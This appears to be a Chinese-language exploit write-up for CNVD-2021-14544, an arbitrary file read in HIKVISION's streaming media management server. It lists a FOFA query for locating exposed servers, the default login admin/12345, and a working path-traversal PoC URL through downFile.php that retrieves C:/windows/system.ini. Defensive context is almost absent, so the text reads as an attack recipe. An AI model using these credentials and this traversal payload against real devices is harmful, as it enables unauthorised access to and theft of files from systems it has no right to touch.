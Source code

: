 # HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

> [!NOTE]
>
> HIKVISION 流媒体管理服务器

## FOFA

> [!NOTE]
>
> title="流媒体管理服务器"

## 漏洞复现

登录页面如下， 默认账号密码为 **admin/12345**

![](image/hiv-5.png)

POC如下，访问如下Url下载 system.ini文件

```
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```

![](image/hiv-6.png)

成功读取 **C:/windows/system.ini**

